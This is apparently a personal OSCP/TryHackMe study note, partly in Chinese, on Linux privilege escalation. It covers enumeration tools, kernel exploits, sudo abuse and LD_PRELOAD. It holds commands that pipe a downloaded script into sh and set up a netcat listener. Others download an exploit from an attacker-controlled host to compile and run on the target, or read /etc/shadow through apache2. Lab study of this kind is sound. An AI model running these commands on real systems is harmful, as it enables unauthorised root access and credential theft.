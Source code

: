 		--> General Linux Commands
			--> find, locate, grep, cut, sort
		
### Automated Enumeration Tools
		--> LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
		=> need upload to shell: 
		--> 1. option 
			--> curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
		--> 2. option
			--> scp 2024_5_CTF/OSCP/try_hack_me/task/linpeas.sh jan@10.10.50.135:/dev/shm
			--> chmod +x linpeas.sh
			--> ./linpeas.sh
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		--> LinEnum: https://github.com/rebootuser/LinEnum
		--> LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
		--> Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
		--> Linux Priv Checker: https://github.com/linted/linuxprivchecker

		--> nc -lnvp 1234
		--> under shell : 
			--> wget "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -O lse.sh;chmod 700 lse.sh
			--> ./lse.sh help | bash lse.sh 
			
## Privilege Escalation:
### Kernel Exploits :
		--> 內核利用方法
			--> 識別核心版本 => uname -a
			--> 搜尋並找到目標系統核心版本的漏洞程式碼 =>cve => https://www.exploit-db.com/
			--> 運行漏洞利用程式  => RUN PAYLOAD
			
			--> use wget upload payload 
			--> SimpleHTTPServer :
				--> python3 -m http.server 80
			--> under target : 
				--> cd /tmp
				--> wget 10.11.92.230:80/37292.c
				--> gcc 37292.c -o 37292
				--> ./37292
### Sudo :
		--> sudo 指令允許您以 root 權限執行程式
		--> sudo -l : 使用該命令檢查其目前與root權限相關的情況
		--> https://gtfobins.github.io/
		
		--> Leverage application functions
			-->  Apache2 server
				--> -f : 支援載入備用設定檔 -- 備用 ServerConfigFile
			-> apache2 -f /etc/shadow
			
		--> Leverage LD_PRELOAD 環境
			--> 允許任何程式使用共享庫的函數
			--> “env_keep”
			